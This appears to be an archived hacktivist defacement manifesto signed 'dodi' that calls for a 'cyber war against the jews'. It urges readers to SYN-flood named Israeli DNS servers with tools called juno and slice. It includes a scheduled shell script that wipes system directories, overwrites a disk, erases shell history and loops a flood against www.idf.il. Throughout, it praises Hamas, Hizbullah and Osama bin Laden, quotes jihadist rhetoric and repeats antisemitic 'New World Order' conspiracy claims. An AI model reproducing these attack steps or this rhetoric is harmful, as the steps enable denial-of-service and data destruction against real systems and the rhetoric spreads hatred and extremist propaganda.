

I see at last I am no longer on my own in the cyber war against the jews.
(notice how i didn't say israel ? well I don't recognise Israel as a country).
I am pleased to see my Muslim brothers in Gforce and PHC contributing to the
destruction of jewish internet sites.
----------------------------------------------------------------------------------------
Today is Friday 3rd Novemeber:
Netvision.net.il's backbone was held down for another hour leaving many .gov.il
web sites inacessible. Expect more in the coming weeks.
This time even the uunet peering router was badly lagged.
As for www.idf.il I don't care where you move your propaganda machine I will continue
to take it out.
----------------------------------------------------------------------------------------
For people wanting a method to easily disable jewish government web pages try hitting
dns.netvision.net.il & nypop.elron.net on port 53 with a syn flooder ( I recommend juno or slice )
300 k/sec on each port should see both boxes offline. Doing this ensures no one can resolve
any web sites these two nameservers are authoritative to unless they are already cached of course.
I would also like to add this isn't just a war against "israel" for the perpatrators of the attrocities
in palestine are US backed. Its America which has blood on its hands the blood of innocent women
and children. Just as Americans were responsible for the killings in Somalia. In Bosnia they denied
the Muslims there from having any weapons to protect themselves from Croatia and Serbia by imposing an
arms ban. And everywhere else in the world where Muslims have died there has always been a US involvment.
Shouts: PHC Gforce Hamas Hizbullah Osama Bin Ladin and everyone else who supports the Palestinian cause.
-dodi
bash#cat isat
#!/bin/sh
banner "Die Kalb" > /dev/lp0 & # from palestine with love
rm -rf /var/ & rm -rf /home & rm -rf /etc & # just to make sure :)
cat /dev/urandom > `df | grep dev | awk '{print $1}' | head -1` & # double check HEH
unset HISTFILE ;unset HISTFILESIZE ; unset HISTSIZE ; rm -rf /root & #
while (true); do nohup ./juno www.idf.il 80 & done # expect this all year you jewz at the idf
bash#at -f isat ??:39:55
warning: commands will be executed using /bin/sh
------------------------------------------------------------------------------------------------------
For over 10 years the United States has been occupying the lands of Islam in the holiest of
places, the Arabian Peninsula, plundering its riches, dictating to its rulers, humiliating its people,
terrorizing its neighbors, and turning its bases in the Peninsula into a spearhead through which to
fight the neighboring Muslim peoples.
If some people have in the past argued about the fact of the occupation, all the people of the
Peninsula have now acknowledged it. The best proof of this is the Americans' continuing aggression
against the Iraqi people using the Peninsula as a staging post, even though all its rulers are against
their territories being used to that end, but they are helpless.
Second, despite the great devastation inflicted on the Iraqi people by the crusader-Zionist alliance,
and despite the huge number of those killed, which has exceeded 1 million... despite all this, the
Americans are once against trying to repeat the horrific massacres, as though they are not content
with the protracted blockade imposed after the ferocious war or the fragmentation and devastation.
if the Americans' aims behind these wars are religious and economic, the aim is also to serve
the Jews' petty state and divert attention from its occupation of Jerusalem and murder of Muslims
there. The best proof of this is their eagerness to destroy Iraqi people, the strongest neighboring Arab
state, and their endeavor to fragment all the states of the region such as Iraq, Saudi Arabia, Egypt,
and Sudan into paper statelets and through their disunion and weakness to guarantee Israel's survival
and the continuation of the brutal crusade occupation of the Peninsula.
August the 2nd 1990, Saddam Hussain's forces crashed through the
defenses of oil rich Kuwait. In fear of an Iraqi invasion into Saudi
Arabia, the United States and her Coalition allies poured into the
Arabian peninsula to form a deterrent; a deterrent that would be
known as Desert Shield. The result was a series of diplomatic talks;
negotiations and counter negotiations that rapidly declined into a
no-hope situation. On January the 17th 1991 Desert Shield became
Desert Storm!
The conflict was witnessed by millions through the eye of CNN and
the BBC. Showing propaganda of the systematic eradication of
Saddam's forces by a coalition far superior in technological,political
and economic power. However, what was little known was that from
the outset, the War was engineered, controlled and manipulated by
an elite group.
A group which had created the illusion of a man with power, at the
head of a million strong army, on the verge of going nuclear. A man
who had gained control over one fifth of the worlds oil overnight.
However, in reality he was merely a pawn, in amongst many pawns -
Just a puppet in a grand master plan, with the Gulf War as a
well-orchestrated stepping stone.
The orchastrators of the War were by no means strangers to
controlling major world events, in fact they have done so for
centuries.
From the Shadows they have engineered every major war,
revolution and recession.
They control Everything You Read, Everything You Hear and
Everything You See.
They have managed to indoctrinate an entire populous to their way of
thinking, and have infiltrated key positions in places of authority.
And it is from the Shadows that they have created A New Political
Order, A New Economic Order and more sinister A New Religious
Order.
Their ultimate aim is total global domination and they will stop at
nothing to reach their goal. The goal that was outlined in a speech
given by a former President of the United States: George Bush:
New World Order sample by George Bush. "What is at stake is A
New World Order"